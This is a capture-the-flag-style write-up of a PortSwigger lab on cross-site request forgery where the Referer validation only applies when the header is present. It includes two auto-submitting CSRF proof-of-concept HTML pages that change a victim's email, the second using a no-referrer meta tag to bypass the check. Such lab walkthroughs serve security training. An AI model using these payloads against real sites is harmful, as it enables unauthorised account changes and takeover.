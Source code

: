 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/21c61afd-274f-4636-8c3c-2840f7821103)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6857b503-92b8-4c62-8138-224640b5d51c)

Send the request to Burp Repeater and Generte the payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a672d830-b044-4851-8ecd-858befa84410)

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0ad9009304620fba86918f28001a0026.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="cyber2&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```
when  viewing  the exploit it will show as invalid `Referer header`. 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6b87dd95-518b-44cb-9834-79870d0d0f2a)

Then Delete the Referer header entirely and observe that the request is now accepted.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4619027b-2461-4fe6-aec2-4015de18bbdd)

request worked.

Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

```html
<meta name="referrer" content="no-referrer">
```
now Generte the payload an insert this payload in that.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cda028ac-cb10-4eb8-a18d-e88c26f4d2ff)

now view  the exploit

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5f9fa9c7-21f0-4e3a-b13d-24b7f0b2dffc)

mail is changed.

Payload-

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <meta name="referrer" content="no-referrer">

    <form action="https://0ad9009304620fba86918f28001a0026.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="cybe99r&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```

Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/747275fb-9f6f-4b6f-a9d8-a315ac49ba03)

